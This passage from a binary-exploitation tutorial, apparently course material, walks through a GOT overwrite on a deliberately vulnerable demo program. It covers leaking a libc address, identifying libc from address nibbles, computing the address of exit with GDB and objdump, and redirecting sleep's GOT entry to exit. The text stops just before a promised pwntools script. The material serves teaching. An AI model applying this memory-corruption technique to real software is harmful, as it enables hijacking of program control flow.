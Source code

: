 Alternatively, if we don't have prior knowledge of the remote system where the binary runs, but obtain via an information leak some addresses, we may be able to identify the libc based on the last 3 nibbles (a nibble is a group of 4 bits) of these addresses:

```text
0xf7df6250 <__libc_system>
0xf7e780e0 <__sleep>
```

The least significant 3 nibbles of the above addresses are `250` and `0e0`, respectively.

We enter them in the [libc database](https://libc.blukat.me/) and get a match for the same `libc` build we determined earlier.

For this `libc`, we obtain the offsets of the functions we are interested in using GDB:

```console
silvia@imladris:/sss/demo$ gdb -q -n /lib/i386-linux-gnu/libc.so.6
(gdb) p printf
$1 = {<text variable, no debug info>} 0x513a0 <__printf>
(gdb) p exit
$2 = {<text variable, no debug info>} 0x30420 <__GI_exit>
```

We will also need the address of `sleep@got` (which is static because the binary is not position independent):

```console
silvia@imladris:/sss/demo$ objdump -d -M intel -j .plt ./got_overwrite | grep "sleep@plt" -A1
080483b0 <sleep@plt>:
 80483b0:   ff 25 0c a0 04 08       jmp    DWORD PTR ds:0x804a00c
```

We start the program and compute the address of exit based on the leak of `printf` (in another terminal):

```text
>>> printf_offset = 0x513a0
>>> exit_offset = 0x30420
>>> 0xf7dfb3a0 - printf_offset + exit_offset
4158497824
```

```console
silvia@imladris:/sss/demo$ ./got_overwrite
Here's a libc address: 0xf7dfb3a0
Give me and address to modify!
0x804a00c
Give me a value!
4158497824
silvia@imladris:/sss/demo$ echo $?
10
```

As we intended, the `GOT` entry corresponding to `sleep` was overwritten by exit and the program exited with code 10 without printing the final message.
The following pwntools script automates this interaction:
